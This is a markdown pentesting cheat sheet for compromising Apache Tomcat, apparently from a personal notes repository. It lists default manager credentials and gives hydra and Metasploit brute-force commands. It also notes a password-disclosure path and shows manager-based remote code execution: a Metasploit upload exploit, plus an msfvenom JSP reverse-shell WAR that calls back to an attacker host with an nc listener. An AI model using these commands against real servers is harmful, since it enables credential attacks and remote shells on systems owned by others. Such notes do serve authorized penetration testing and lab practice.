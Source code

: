 # 🐈 Tomcat
## No Account
### Default Credentials
* admin:admin
* tomcat:tomcat
* admin:
* admin:s3cr3t
* tomcat:s3cr3t
* tomcat:s3cret
* admin:tomcat

### Bruteforce
```bash
# metasploit
msf> use auxiliary/scanner/http/tomcat_mgr_login

# hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Passwords Backtrace disclosure
/auth.jsp

## With Account
### Manager - RCE
>You will only be able to deploy a WAR if you have enough privileges (roles: admin, manager and manager-script). Those details can be find under tomcat-users.xml usually defined in /usr/share/tomcat9/etc/tomcat-users.xml (it vary between versions)

#### PoC
```bash
# metasploit
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit

# msfvenom - manually
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8083 -f war -o revshell.war
# upload it to tomcat and access it : /revshell/
# host
nc -lvnp 8083
```
